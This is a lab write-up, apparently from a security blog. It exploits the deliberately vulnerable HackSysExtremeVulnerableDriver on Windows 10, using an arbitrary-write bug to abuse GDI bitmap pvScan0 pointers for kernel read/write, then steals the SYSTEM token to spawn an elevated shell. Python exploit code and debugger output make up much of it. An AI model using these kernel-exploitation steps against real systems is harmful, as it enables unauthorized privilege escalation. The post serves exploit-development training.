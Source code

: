 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver GDI Bitmap Abuse
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1511 Feb 2016  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Make sure our arbitrary write still works as expected on Win 10.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Well, I got the feedback, it work fine!
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

Take it easy~ 

Now, I will create a Bitmap objects, and try to find where it is.
```
HBITMAP CreateBitmap（
 _In_ int nWidth，
 _In_ int nHeight，
 _In_ UINT cPlanes，
 _In_ UINT cBitsPerPel，
 _In_ const VOID * lpvBits
);
```

Execute this script, the process will be hung up.
```
import sys,time
from ctypes import *

kernel32 = windll.kernel32
gdi32 = windll.gdi32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
	
bmp = gdi32.CreateBitmap(0x64,0x64,1,32)
print "[+] Bitmap objects Addr: {0}".format(hex(bmp))

kernel32.DebugBreak()
kernel32.DebugBreak()

while True:
  time.sleep(60*60*24)
```

The handle is printed.
```
C:\Users\wooy0ung>python C:\Users\wooy0ung\Desktop\poc.py
[+] Bitmap objects Addr: 0x20050b46
```

Try to find out the "GdiSharedHandleTable" step by step.
```
kd> !process 0 0 python.exe
PROCESS ffffe00058481840
    SessionId: 1  Cid: 0584    Peb: 002ad000  ParentCid: 02f8
    DirBase: 42277000  ObjectTable: ffffc000e4cf6ac0  HandleCount: <Data Not Accessible>
    Image: python.exe

kd> .process ffffe00058481840
Implicit process is now ffffe000`58481840
WARNING: .cache forcedecodeuser is not enabled
kd> .context
User-mode page directory base is 42277000
kd> r $peb
$peb=00000000002ad000
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
```

GdiSharedHandleTable is a pointer array, we access the array by last two bytes of bitmap handles in order[GdiSharedHandleTable + (handle & 0xffff) * (x64:0x18,x86:0x10]
```
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
kd> dq 0x00000000`00b90000 + (0x6105104c & 0xffff)*0x18 L3
00000000`00ba8720  fffff901`44895000 40056105`00000584
00000000`00ba8730  00000000`00000000
```
Addr of the Bitmap which I create just now may be 0xfffff90144895000 while the PID is 1412(0x584)

We can verify the Addr by ProcessHacker.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x001.png)

When we create a Bitmap object, SURFACE OBJECT will be created, including BASEOBJECT、SURFOBJECT and pvScan0 which belongs to the SURFOBJECT pointing to the Pixel Data.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x002.png)
```
typedef struct {
 BASEOBJECT64   BaseObject;
 SURFOBJ64      SurfObj; 
 .......
} SURFACE64

typedef struct {
 ULONG64    hHmgr;
 ULONG32    ulShareCount;
 WORD       cExclusiveLock;
 WORD       BaseFlags;
 ULONG64    Tid;
} BASEOBJECT64;

typedef struct {
 ULONG64    dhsurf;
 ULONG64    hsurf;
 ULONG64    dhpdev;
 ULONG64    hdev;
 SIZEL      sizlBitmap;
 ULONG64    cjBits;
 ULONG64    pvBits;
 ULONG64    pvScan0;
 ULONG32    lDelta;
 ULONG32    iUniq;
 ULONG32    iBitmapFormat;
 USHORT     iType;
 USHORT     fjBitmap;
} SURFOBJ64
```

Declare two Bitmap objects(hManager, hWorker). Set hManager's pvScan0 to the Addr of hWorker's pvScan0. Well, we may use the ArbitratyOverite vulnerability.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x003.png)

But first, we should get GdiSharedHandleTable Addr
```
pbi = PROCESS_BASIC_INFORMATION()
ntdll.NtQueryInformationProcess.argtypes = (HANDLE, UINT, c_void_p, ULONG, POINTER(ULONG))
ntdll.NtQueryInformationProcess(kernel32.GetCurrentProcess(), 0, byref(pbi), sizeof(pbi), None)
peb = pbi.PebBaseAddress.contents
gdiHandleTable = peb.GdiSharedHandleTable
print "[+] GdiSharedHandleTable : {0}".format(hex(gdiHandleTable))
```

Then I will calculate pvscan0 offset of every Bitmap objects of which I created.
```
ptr = gdiHandleTable + (hManager & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hManager_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hManager_pvscan0_off : {0}".format(hex(hManager_pvscan0_off))

ptr = gdiHandleTable + (hWorker & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hWorker_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hWorker_pvscan0_off  : {0}".format(hex(hWorker_pvscan0_off))
```

Using our arbitrary write we want to set the pvScan0 address for the "manager" bitmap to point at the pvScan0 address of the "worker" bitmap.
```
write_where = hManager_pvscan0_off
write_what_ptr = c_void_p(hWorker_pvscan0_off)
buf = struct.pack("<Q", write_what_ptr) + struct.pack("<Q", write_where)
buf_ptr = id(buf) + 0x20
buflen = len(buf)
kernel32.DeviceIoControl(hevDevice, 0x22200B, buf_ptr, buflen, None, 0,byref(c_ulong()), None)
```

Check if this is valid.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x004.png)
Success. Now, I may read and write a specific memory with GetBitmapBits and SetBitmapBits method.

PsInitialSystemProcess is a global variable containing the EPROCESS structure address of the SYSTEM process. Therefore, we can get the EPROCESS of the SYSTEM process by looking up the address in the kernel land.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x005.png)

And now, I should calculate the offset of some important property. There is a good news that we find out the SYSTEM EPROCESS Addr(0xffffe0008425d040 at this time). Let's set a breakpoint~
```
kd> dt _EPROCESS UniqueProcessId ActiveProcessLinks
ntdll!_EPROCESS
   +0x2e8 UniqueProcessId    : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
kd> dt _EPROCESS ImageFileName Token
ntdll!_EPROCESS
   +0x358 Token         : _EX_FAST_REF
   +0x450 ImageFileName : [15] UChar
```

Clearly, I get the offset!
```
token_off = 0x358
unique_process_id_off = 0x2e8
active_process_links_off = 0x2f0
```

Next step, find CURRENT EPROCESS structure, then, copy system token to the current process.

finally, pop a system cmd.
```
...
system_token = c_ulonglong()
read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));

Popen("start cmd", shell=True)
```

pwn~
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x006.png)


## 0x003 Reference

[Part 17: Kernel Exploitation -> GDI Bitmap Abuse (Win7-10 32/64bit)](http://www.fuzzysecurity.com/tutorials/expDev/21.html)  
[Window Kernel Exploit -> GDI Bitmap Abuse](http://gflow.co.kr/window-kernel-exploit-gdi-bitmap-abuse/)  
[Techwiki:Win32k/BASEOBJECT](https://www.reactos.org/wiki/Techwiki:Win32k/BASEOBJECT)  